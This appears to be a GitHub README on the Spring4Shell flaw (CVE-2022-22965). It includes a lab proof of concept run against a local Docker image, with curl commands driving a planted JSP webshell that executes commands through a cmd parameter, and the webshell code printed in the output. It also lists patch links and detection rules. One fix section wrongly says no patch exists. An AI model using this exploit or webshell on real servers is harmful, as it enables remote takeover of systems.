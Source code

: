 # Spring Core RCE - CVE-2022-22965

> After Spring Cloud, on March 29, another heavyweight vulnerability of Spring broke out on the Internet: Spring Core RCE 
>
> On March 31 Spring released new versions which fixes the vulnerability. See section [Patching](#patching).
> 
> On March 31 a [CVE-number was finally assigned to the vulnerability](https://tanzu.vmware.com/security/cve-2022-22965) with a [CVSS score 9.8 (CRITICAL)](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Proof-of-Concept
The exploit is very easy to use, hence the very high CVSS score of 9.8.

To test the vulnerability you can do the following.

Start a vulnerable docker image of Spring.
```sh
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29
```

This binds the vulnerable Spring to the address `localhost:8082`.

Verify the image is started correctly with `curl`
```sh
curl http://localhost:8082
```

A response of `ok` should be returned.

Let's exploit the vulnerable image now!

```sh
python3 exp.py --url http://localhost:8082
```

A response of `The vulnerability exists ....` should be returned.

You can now exploit the vulnerability with `curl`
```sh
# Execute command whoami
curl --output - http://localhost:8082/tomcatwar.jsp?pwd=j&cmd=whoami

# Response has been truncated
root

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } - ........

# Execute command ls
curl --output - http://localhost:8082/tomcatwar.jsp?pwd=j&cmd=ls

# Response has been truncated
app
bin
dev
etc
..........
```

## Circulating coding poc 
**The exploit has been uploaded so far ```exp.py```**  
![Circulating coding poc ](images/poc.png)  
![awkward situation ](images/img_1.png)

## Patching
Spring have now released new versions which addresses this CVE. See [Springs announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement).

[The commit that patched the vulnerability](https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529)

## Vulnerability Impact 
1. JDK version 9 and above 
2. Spring Framework or derived frameworks are used

## Bug fix suggestion 
At present, Spring has not officially released a patch, it is recommended to reduce the jdk version as a temporary solution

## Blue team
### Yara
* [Florian Roth - Spring4Shell webshells](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_spring4shell.yar)

### Sigma
* [Emanuele De Lucia - Creation of .jsp webshells](https://github.com/edelucia/rules/blob/main/sigma/Spring4Shell.yaml)

### SPLUNK
* [Alex John - Splunk detection SPL](https://github.com/west-wind/Spring4Shell-Detection)
